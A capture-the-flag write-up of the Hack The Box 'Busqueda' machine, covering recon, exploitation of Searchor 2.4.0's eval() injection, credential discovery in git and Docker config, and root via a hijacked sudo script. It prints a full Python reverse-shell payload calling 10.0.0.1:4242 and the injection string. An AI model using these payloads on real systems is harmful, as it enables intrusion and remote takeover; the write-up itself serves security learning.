# Busqueda
<style>h1,h2,h3,h4 { border-bottom: 0; } img {margin:20px}</style>
#### _June 30th 2023_

#### Difficulty: <span style="color:green">Easy</span>


---
<br>
I started the lab with a quick scan. We have ssh and http ports open. Next I ran full scan with scripts and service version detection on all ports. This told us the server is using Apache 2.4.52, but not anything else too interesting.

<img src="images/nmapquick.png">

After nmap scans were finished i ran gobuster enumeration, which found /search and /server-status paths. Following gobuster I did one more enumeration run using whatweb, which revealed that the server is running werkzeug 2.1.2 and python 3.10.6 code. 

<img src="images/gobusterdir.png">

Now I decided it is time to pay the website a visit on my browser. On the website I see that the application is a search engine, where I can choose my searchengine and then type the query i want to search. On the bottom of the page we can see a footer which says the application is using Searchor 2.4.0. 

<img src="images/website.png">

At this point what I know is that the server is using Apache 2.4.52, Flask back-end / Werkzeug 2.1.2, Searchor 2.4.0 and that the application sends user input queries to the back-end. Now I decided that it is time to start gathering information about the services running in more detail and search for vulnerabilites.

Starting with Apache, I found CVE-2022-22721 affecting Apache version 2.4.52, but thinking about the nature of our task and the environment we are working with, I decided to not pursue this vulnerability any further.

Next I started researching for Flask/Werkzeug vulnerabilities. Using tips from HackTricks and script, I tried to traverse to console endpoint, which didn't work because debug is not enabled on the server. Other than that, this Flask version doesn't seem to have publicly available exploits so I decided to move forward.

After researching Flask it was time to move on to Searchor 2.4.0. On the first google I came across a RCE vulnerability. The vulnerability can be found here. Moving to references on the exploit site there is a link to a Github commit, where we can see an eval() function being removed. This hints that we can probably use the eval() value on the search query as a sink to break out of it and execute malicious code. 

<img src="images/changes.png">

Using PayLoadAllTheThings I found a payload to create reverse shell on Python. Getting the payload to work took a while, but I was able to get a foothold in the target machine. The final payload used was crafted from this:

python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

<img src="images/foothold.png">

To understand why the exploit works you can refer to the changelog of Searchor mentioned above, where you can see that an eval() function was removed from the application. For example, adding a ',1=1# to the 'url' parameter's formatted string literal 'query' gives you a the following string:

f"Engine.{engine}.search('{query}',1=1#', copy_url={copy}, open_web={open})"

which essentially enables the attacker to define any variables and execute any python code on the target machine. The malicious query itself connects the attacker (your host machine) to the target machine, spawns new process (/bin/bash) and duplicates standard input, standard output and standard error for the use of the created process.

After having foothold on the target it was time to start enumerating the machine. First thing i did was upgrade the TTY, after which i started looking around the directories. In the directory /home/svc I found plenty of hidden files, including ones called .mysql_history, and .gitconfig. Reading the .gitconfig file there is some user information: cody@searcher.thb. 

<img src="images/cody.png">

Looking around other important files, including /etc/hosts I noticed a mention about gitea.searcher.htb host. After this I headed to the application directory at /var/www/app and did ls -a on it. The list revealed a hidden .git folder inside which was the whole git repository. The config file included the following line:

url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git.

Maybe this could be codys password?

<img src="images/codypass.png">

Cody does not have account on the machine we are working on now and the password does not work for any other users either. I decided to take a look at gitea.searcher.htb, which seems to be another web application. On the bottom of the page we have a footer saying "Gitea Version 1.18.0+rc1. On the upper right we have sign-in option. Let's try the user and password we just found there. 

<img src="images/gitealogged.png">

That seems to have worked and we are now logged in on cody's account on gitea. Looking around the repository didn't reveal anything interesting other than that there is another user named "administrator". On bottom right I saw a API link, which led me to the gitea api website. I was able to authenticate as cody there and I was able to run some api calls, however this was a deadend that I wasted quite alot time on.

Taking a step back I did find out that I can use cody's password to run sudo svc account on the target machine, allowing me to run sudo commands. 

<img src="images/sudol.png">

Doing sudo -l printed the following:

User svc may run the following commands on busqueda: (root) /usr/bin/python3 /opt/scripts/system-checkup.py *.

So I decided to run the above script. The script omitted some usage information indicating that I can list running docker containers. 

<img src="images/checkup.png">

Running docker-ps revealed a running mysql database image. Next, I inspected it further. I found the path to the logs of the docker image, but I was not permitted to access it. After that I took a look at the docs and tried to get a subsection in JSON format of the .Config. It worked, and I noticed the following entries:

"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh"

<img src="images/dockerps.png">

Prior experience on this box led me to try both of the above passwords in Gitea to log into administrator account and it worked, and I was able to find a scripts repository. Looking at system-checkup.py I found a line saying that the script runs full-checkup.sh from the present directory. This means I could make a script called full-checkup.sh and system-checkup would call and execute it. 

<img src="images/run_command.png">

I crafted a script called full-checkup.sh that creates a reverse shell on my host machine which has netcat listener on. This gave me root shell. 

<img src="images/script.png">

<img src="images/revshell.png">